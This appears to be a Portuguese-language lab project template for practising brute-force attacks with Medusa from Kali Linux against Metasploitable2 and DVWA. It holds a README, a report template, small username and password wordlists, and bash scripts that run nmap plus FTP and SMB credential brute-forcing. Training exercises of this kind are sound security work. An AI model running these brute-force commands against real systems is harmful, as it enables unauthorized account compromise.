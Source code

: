 # Projeto: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)



## Estrutura de arquivos (já preparadas abaixo)

```
desafio-medusa-kali/
├─ README.md
├─ relatorio.md
├─ wordlists/
│  ├─ simples_usernames.txt
│  └─ simples_passwords.txt
├─ scripts/
│  ├─ run_medusa.sh
│  └─ collect_evidence.sh
├─ images/
│  └─ (coloque suas screenshots aqui)
└─ commands.txt
```

---

<!-- README.md -->

````markdown
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e recomendações de mitigação.

> **Aviso legal:** Todos os testes foram executados apenas em VMs de laboratório (Metasploitable2 / DVWA). Não realize testes em sistemas sem autorização.

## Estrutura do repositório
- `README.md` (este arquivo)
- `relatorio.md` (relatório técnico com evidências)
- `wordlists/` (wordlists usadas nos testes)
- `scripts/` (scripts para rodar os testes e coletar evidências)
- `images/` (screenshots e capturas de pcap)
- `commands.txt` (comandos executados)

## Ambiente
- Hypervisor: VirtualBox
- VMs:
  - Kali Linux (autor: Marcelo) — IP: `192.168.1.2` (exemplo)
  - Metasploitable2 — IP: `192.168.1.16` (exemplo)
- Rede: Host-only / Internal Network

> Substitua os IPs acima pelos IPs reais do seu ambiente antes de executar os scripts.

## Ferramentas utilizadas
- Kali Linux
- Medusa
- Nmap
- smbclient, enum4linux
- Hydra (opcional)
- ssh/sshfs

## Wordlists (exemplo)
Veja a pasta `wordlists/` neste repositório.

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p- 192.168.1.16 -oN nmap_full.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt
````

### Ataque FTP (Medusa)

```bash
medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -o medusa_ftp_results.txt
```

### Ataque SMB (Medusa)

```bash
medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -o medusa_smb_results.txt
```




## Resultado e recomendações

Documente no `relatorio.md` os logins encontrados, horários, comandos e recomendações de mitigação (políticas de senha, bloqueio de conta, MFA, não expor SMB/FTP, usar SFTP/FTPS, monitoramento).

````

---

<!-- relatorio.md -->

```markdown
# Relatório Técnico — Desafio Medusa (Kali + Metasploitable2/DVWA)

## Autor
Marcelo Guilherme

## Data
2025-10-28

## Resumo executivo
(Coloque aqui um resumo curto: objetivos, ambiente e principais resultados.)

## Ambiente
- Kali Linux — IP: 192.168.1.2
- Metasploitable2 — IP: 192.168.1.16
- Rede: Host-only

## Objetivos do teste
1. Executar ataques de força bruta com Medusa contra FTP.
2. Realizar password spraying em SMB.
3. Simular tentativas em formulário web (DVWA).
4. Documentar evidências e propor medidas de mitigação.

## Metodologia
(Descreva a sequência: enumeração → ataque com Medusa → validação → coleta de evidências.)

## Wordlists usadas
- `wordlists/simples_usernames.txt`
- `wordlists/simples_passwords.txt`

## Comandos executados e saídas relevantes
(Colar trechos das saídas dos arquivos em `commands.txt` e `medusa_*_results.txt`.)

## Evidências (screenshots)
- `images/nmap_full.png` — resultado do Nmap
- `images/medusa_ftp.png` — saída do Medusa mostrando credenciais
- `images/dvwa_login.png` — tentativa de login no DVWA

## Resultados
- FTP: `msfadmin:msfadmin` (exemplo) — [timestamp]
- SMB: (detalhar se obteve algo)

## Impacto
(Explique o risco caso essas senhas fossem em produção.)

## Recomendações de mitigação
- Políticas de senha e bloqueio de conta
- MFA
- Não expor serviços (SMB/FTP) à Internet
- Usar SFTP/FTPS e criptografia
- Monitoramento e alertas

## Conclusão
(Reflexão final sobre o exercício e próximos passos para aprofundar.)
````

---

<!-- wordlists/simples_usernames.txt -->

```
admin
msfadmin
user
test
guest
```

---

<!-- wordlists/simples_passwords.txt -->

```
password
123456
admin
pass
msfadmin
qwerty
```

---

<!-- scripts/run_medusa.sh -->

```bash
#!/bin/bash
# Script simples para executar os testes de Medusa em um alvo local.
# Uso: sudo ./run_medusa.sh 192.168.1.16

if [ -z "$1" ]; then
  echo "Uso: $0 <IP_ALVO>"
  exit 1
fi
TARGET="$1"
WORD_USERS="wordlists/simples_usernames.txt"
WORD_PASS="wordlists/simples_passwords.txt"
OUTDIR="results"
mkdir -p "$OUTDIR"

echo "==> Nmap quick"
sudo nmap -sV -p 21,22,80,139,445,3306 "$TARGET" -oN "$OUTDIR/nmap_quick.txt"

echo "==> Medusa FTP"
medusa -h "$TARGET" -U "$WORD_USERS" -P "$WORD_PASS" -M ftp -t 6 -f -O "$OUTDIR/medusa_ftp.txt"

echo "==> Medusa SMB"
medusa -h "$TARGET" -U "$WORD_USERS" -P "$WORD_PASS" -M smb -t 8 -f -O "$OUTDIR/medusa_smb.txt"

echo "==> done. results in $OUTDIR"
```

> Torne o script executável: `chmod +x scripts/run_medusa.sh`

---

<!-- scripts/collect_evidence.sh -->

```bash
#!/bin/bash
# Coleta evidências rápidas: outputs do medusa, smbclient e captura com tcpdump (opcional)
TARGET="$1"
OUTDIR="results"
mkdir -p "$OUTDIR"

if [ -z "$TARGET" ]; then
  echo "Uso: $0 <IP_ALVO>"
  exit 1
fi

# listar shares (sem senha)
smbclient -L "//$TARGET" -N > "$OUTDIR/smb_shares.txt" 2>&1

# salvar conexões ativas (netstat) em host local
ss -tulpen > "$OUTDIR/ss.txt"

# opcional: tcpdump por 10s (requer sudo)
# sudo timeout 10 tcpdump -i any host $TARGET -w "$OUTDIR/capture.pcap"

echo "evidences saved in $OUTDIR"
```

---

<!-- commands.txt -->

```
# Comandos executados (cole as saídas relevantes no relatorio.md)
sudo nmap -sS -sV -p- 192.168.1.16 -oN nmap_full.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt
medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f
medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f
```

---


